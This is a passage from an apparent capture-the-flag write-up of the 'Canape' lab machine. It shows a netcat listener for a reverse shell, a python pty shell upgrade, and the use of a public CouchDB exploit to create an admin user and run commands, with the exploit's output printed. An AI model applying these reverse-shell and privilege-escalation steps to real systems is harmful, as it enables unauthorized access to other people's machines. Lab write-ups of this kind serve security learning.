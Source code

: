 2. Listen on the local computer with ``nc -lnvp {port}``
3. Execute the reverse shell we uploaded with the RCE.

```py
cmd = "cd /tmp; python shell.py;"
```

*Reverse shell spawned!*

![Img](/assets/posts_details/Canape/images/rev_shell.png "Img")

Then, as we know python is installed, we can upgrade to a tty shell:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Getting to user

The first thing that came to my mind was the CouchDB used by the web app. Maybe it had on it some creds?

I tried to get some data from it but always failed because I didn't have an authorized user:

```console
www-data@canape:/tmp$ curl -s http://localhost:5984/_users/_all_docs
curl -s http://localhost:5984/_users/_all_docs
{"error":"unauthorized","reason":"You are not a server admin."}
```

So I searched on the internet for ways to exploit the service, and found two python scripts that let me create an admin user. I tried with [this](https://www.exploit-db.com/exploits/44913/) one and the following command:

```console
www-data@canape:/tmp$ python ex.py --priv -u root3u -p password -c whoami http://127.0.0.1:5984
<n ex.py --priv -u root3u -p password -c whoami http://127.0.0.1:5984        
[*] Detected CouchDB Version 2.0.0
[+] User root3u with password password successfully created.
[+] Created payload at: http://127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd
[+] Command executed: whoami
[*] Cleaning up.
```

As it said that I needed to provide a command, I used ``whoami``, which had a simple output. However, when I visied the url I still got unautorized access. After a few google searches, I learnt I needed to pass the user and password along with the URL, and this time I was authenticated. The only problem was the file didn't exist.

```console
www-data@canape:/tmp$ curl http://127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd
<http://127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd     
{"error":"unauthorized","reason":"You are not a server admin."}
www-data@canape:/tmp$ http://root3u:password@127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd
<1:5984/_node/couchdb@localhost/_config/query_servers/cmd                    
bash: http://root3u:password@127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd: No such file or directory
```
